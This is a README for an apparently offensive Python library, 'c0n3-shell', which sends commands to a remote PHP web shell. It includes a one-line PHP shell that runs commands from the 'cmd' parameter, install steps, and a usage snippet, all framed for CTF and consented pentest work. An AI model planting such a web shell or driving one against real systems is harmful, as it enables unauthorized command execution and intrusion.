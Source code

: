 # c0n3-shell - Python remote web shell client library

WIP - That project aim to provide simple to use, basic remote web shell client.


# Disclaimer

That library is provided AS-IS, and is **only** intended to be used in the context of **CTF games** and **pentests exercises** with the prior mutual and writen consent of the targeted sites.

The developpers will assume no liability and are not responsible for any misuse or damage caused by that library.

**YOU are responsible for what you do with it.**

It is the end user’s responsibility to obey all applicable local, state and federal laws.


# Usage

That library is intended to be used when you have a remote php shell accepting commands like that:
```
...
<?php passthru($_GET['cmd']); ?>
...
```

To use it:

Clone the repository, then pip install requirements and c0n3shell:

```
git clone https://github.com/lrk/c0n3-shell
cd c0n3-shell
pip install -r requirements.txt
pip install .
```

Now you can use it in your script:
```
#!/usr/bin/env python
from c0n3shell import *

shell = C0n3Shell(url='http://127.0.0.1/index.php')
shell.cmdloop()
```

# Available options

- http_verb: the http method to use, default `get`
- url: the remote shell url
- attribute: the injectable attribute, default `cmd`
